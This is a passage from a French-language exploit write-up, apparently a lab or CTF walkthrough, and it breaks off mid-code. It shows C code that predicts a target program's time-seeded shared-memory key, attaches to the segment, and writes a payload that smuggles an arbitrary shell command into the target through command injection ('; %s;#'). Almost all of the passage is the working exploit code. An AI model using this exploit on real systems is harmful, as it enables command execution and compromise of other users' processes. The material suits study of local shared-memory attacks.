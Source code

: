 ***

***

### <mark style="color:$danger;">8. Développement de l'Exploit</mark>&#x20;

#### <mark style="color:$success;">8.1 Structure de l'Exploit</mark>

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <sys/shm.h>
#include <string.h>
#include <unistd.h>

// Structure pour gérer l'exploitation
typedef struct {
    int shm_key;
    int shmid;
    char *shm_ptr;
    char payload[400];
} exploit_t;

// Initialisation de l'exploit
int init_exploit(exploit_t *exp) {
    // Génération de la clé identique au programme cible
    time_t now = time(NULL);
    srand(now);
    exp->shm_key = rand() % 0xfffff;
    
    // Accès au segment de mémoire partagée
    exp->shmid = shmget(exp->shm_key, 0x400, 0x3b6);
    if (exp->shmid == -1) {
        perror("shmget");
        return -1;
    }
    
    // Attachement au segment
    exp->shm_ptr = (char *)shmat(exp->shmid, NULL, 0);
    if (exp->shm_ptr == (char *)-1) {
        perror("shmat");
        return -1;
    }
    
    return 0;
}

// Injection du payload
int inject_payload(exploit_t *exp, const char *command) {
    snprintf(exp->payload, sizeof(exp->payload),
             "Leaked hash detected at whenever > '; %s;#", command);
    
    // Écriture dans la mémoire partagée
    strncpy(exp->shm_ptr, exp->payload, 0x400);
    
    return 0;
}

// Nettoyage
void cleanup_exploit(exploit_t *exp) {
    if (exp->shm_ptr != (char *)-1) {
```